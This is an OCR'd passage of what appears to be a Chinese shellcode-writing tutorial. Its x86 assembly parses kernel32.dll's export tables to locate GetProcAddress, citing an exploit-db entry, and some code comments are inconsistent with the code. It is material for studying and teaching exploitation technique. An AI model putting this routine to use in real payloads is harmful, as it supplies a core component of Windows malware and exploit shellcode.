      add ebx, eax            ; EBX = &NewEXEHeader
     mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable
     add ebx, eax            ; EBX = &ExportTable
     ; Find the address of the Name Pointer Table within kernel32.dll
     mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable
     add edi, eax            ; EDI = &NamePointerTable
     mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame
    
    ; Find the address of the Ordinal Table
     mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable
     add ecx, eax            ; ECX = &OrdinalTable
     mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame
    
    ; Find the address of the Address Table
     mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable
     add edx, eax            ; EDX = &AddressTable
     mov [ebp-0x10], edx     ; save &AddressTable to stack-frame
    
    ; Find Number of Functions within the Export Table of kernel32.dll
     mov edx, [ebx+0x14]     ; EDX = Number of Functions
     mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame
    ```

  + 找到函数的入口点[参考](https://www.exploit-db.com/exploits/48355)
    ```asm
    jmp short functions
    
    findFunctionAddr:
    ; Initialize the Counter to prevent infinite loop
     xor eax, eax            ; EAX = Counter = 0
     mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
    ; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
    searchLoop:
     mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
     mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for 
     xor ecx, ecx            ; ECX = 0x00000000
     cld                     ; clear direction flag - Process strings from left to right
     mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
     add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
     add cx, 0xF             ; ECX = len("GetProcAddress,0x00") = 15 = 14 char + 1 Null
     repe cmpsb              ; compare first 8 bytes of [&NameString] to "GetProcAddress,0x00"
     jz found                ; If string at [&NameString] == "GetProcAddress,0x00", then end loop
     inc eax                 ; else Counter ++
     cmp eax, edx            ; Does EAX == Number of Functions?
     jb searchLoop           ;   If EAX != Number of Functions, then restart the loop
    
    found:
    ; Find the address of WinExec by using the last value of the Counter
     mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
     mov edx, [ebp-0x10]     ; EDX = &AddressTable
     mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber      = [&OrdinalTable + (Counter*2)]
     mov eax, [edx + eax*4]  ; EAX = RVA GetProcAddress = [&AddressTable + ordinalNumber]
     add eax, [ebp-0x4]      ; EAX = &GetProcAddress    = RVA GetProcAddress + &kernel32.dll
     ret
    